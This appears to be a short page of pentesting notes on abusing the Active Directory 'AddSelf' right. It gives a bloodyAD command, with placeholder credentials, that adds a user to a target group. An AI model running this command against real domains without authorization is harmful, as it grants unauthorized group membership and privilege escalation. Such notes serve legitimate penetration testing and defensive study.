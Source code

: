 # 'AddSelf' to a group

When a user has `AddSelf` rights, it has the privilege to add itself to the group.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To add we can do this:

{% code title="BloodyAD" overflow="wrap" %}
```bash
# installation
sudo apt install bloodyad

bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember $TargetGroup $TargetUser
```
{% endcode %}
